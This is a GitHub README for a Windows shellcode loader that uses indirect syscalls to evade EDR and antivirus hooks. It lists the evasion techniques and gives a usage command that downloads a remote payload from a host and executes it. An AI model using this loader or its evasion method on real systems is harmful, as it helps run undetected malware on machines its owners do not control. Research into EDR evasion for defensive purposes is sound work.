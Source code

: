 
# Indirect Syscall Loader

This project demonstrates a stealthy shellcode loader for Windows x64 that uses **indirect syscalls** to bypass user-mode API hooks used by EDR and antivirus software.

## Features
- Dynamic syscall number and address resolution from `ntdll.dll`.
- Custom assembly stubs for `NtAllocateVirtualMemory`, `NtWriteVirtualMemory`, `NtCreateThreadEx`, and `NtWaitForSingleObject`.
- HTTPS payload download using `WinINet`.
- Direct syscalls for memory allocation, writing, and execution.

## Usage
```bash
loader.exe <HOST> <PATH> <PORT>
````

Example:

```bash
loader.exe 192.168.100.192 /payload.bin 443
```

## More Information

For a detailed explanation of how this works, visit:
[https://portfolio-three-alpha-27.vercel.app/Blogs/indirect-system-call](https://portfolio-three-alpha-27.vercel.app/Blogs/indirect-system-call)

---

⚠️ **Disclaimer**: This code is for educational and research purposes only. Do not use it for malicious activities.


